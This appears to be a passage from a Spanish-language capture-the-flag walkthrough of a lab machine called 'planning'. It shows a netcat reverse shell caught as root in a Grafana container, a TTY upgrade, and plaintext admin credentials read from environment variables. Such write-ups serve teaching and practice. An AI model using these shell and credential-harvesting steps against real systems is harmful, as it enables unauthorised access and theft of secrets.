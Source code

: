 
## Shell as `root` - `Grafana` Container

Recibiremos la conexión y ganaremos acceso como `root` a un contenedor, podemos comprobarlo por el nombre del host y la IP

~~~ bash
nc -lvnp 443   
listening on [any] 443 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.68] 50428
sh: 0: can't access tty; job control turned off
# id                       
uid=0(root) gid=0(root) groups=0(root)
# hostname -I
172.17.0.2
# hostname
7ce659d667d7
~~~

### TTY Treatment

Haremos un tratamiento de la `tty` para obtener una consola más interactiva que nos permita  desplazarnos, hacer `Ctrl + C` sin que muera la consola, limpiar la pantalla con `Ctrl + L` y tener las proporciones de nuestra terminal 

~~~ bash
# script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@7ce659d667d7:~# ^Z
[1]  + 55575 suspended  nc -lvnp 4646
root@parrot planning # stty raw -echo; fg
[1]  + 55575 continued  nc -lvnp 4646
                                     reset xterm

root@7ce659d667d7:~# export TERM=xterm
root@7ce659d667d7:~# stty rows 44 columns 184
~~~
<br>


# Intrusión / Explotación - `planning`
---
## Credentials Leakage

Si ejecutamos el comando `env` para listar las variables de entorno asignadas en este sistema, veremos credenciales para un usuario en las variables `GF_SECURITY_ADMIN_USER/PASSWORD` 

~~~ bash
root@7ce659d667d7:~# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
TERM=xterm
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
~~~